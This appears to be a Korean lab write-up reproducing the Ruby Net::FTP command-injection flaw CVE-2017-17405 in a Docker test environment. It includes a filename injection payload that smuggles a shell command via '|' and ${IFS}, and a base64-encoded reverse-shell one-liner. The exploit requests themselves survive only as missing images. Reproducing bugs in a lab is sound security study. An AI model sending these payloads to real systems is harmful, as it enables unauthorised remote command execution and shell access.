


# Ruby Net::FTP 모듈 명령 주입 취약점（CVE-2017-17405）

Ruby Net::FRP 모듈은 FTP 클라이언트를 제공하는데, 파일 업로드 및 다운로드 과정에서 로컬 파일을 열 때 'open' 함수를 사용합니다. 그런데, Ruby에서 'open' 함수는 파일을 열 때 시스템 명령을 사용하며, 셸 문자열을 필터링하지 않아 사용자가 파일 이름을 제어할 수 있는 경우 임의의 명령을 주입할 수 있게 됩니다.

## 환경설정

취약점 환경 구축 컴파일 및 실행：

```
docker compose build
docker compose up -d
```

구축 완료된 환경을 시작한 후, 'http://your-ip:8080/'을 방문하면 HTTP 서비스를 볼 수 있습니다. 이 HTTP 서비스의 역할은 'http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt'에 접속하면 example.com:2121 FTP 서버에서 vulhub.txt 파일을 로컬로 다운로드하고 해당 내용을 사용자에게 반환하는 것입니다.

## 취약점 재현

이것은 FTP 클라이언트 취약점이기 때문에 먼저 접근 가능한 서버를 실행해야 합니다. Python을 사용하여 다음과 같이 할 수 있습니다:

```
# pyftpdlib 설치
pip install pyftpdlib

# 현재 디렉토리에서 FTP 서버를 시작하고, 기본적으로 '0.0.0.0:2121' 포트에서 수신 대기합니다.
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

그런 다음 취약점을 활용할 수 있습니다. '|touch${IFS}success.txt' 명령을 삽입하십시오. 공백은 ${IFS}로 대체됩니다(이유는 언급되지 않음). 다음과 같은 데이터 패킷을 보내면 됩니다(이때 'uri'로 지정한 FTP 서버는 Python으로 실행한 간단한 FTP 서버이며 파일을 배치할 필요가 없습니다):



다음으로 Docker 컨테이너에 들어가면, 'success.txt' 파일이 이미 생성되어 있는 것을 확인할 수 있습니다.:


반사 쉘(reverse shell) 실행 명령어 '|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'"를 실행하면 성공적으로 반사 쉘을 활성화시킬 수 있습니다.


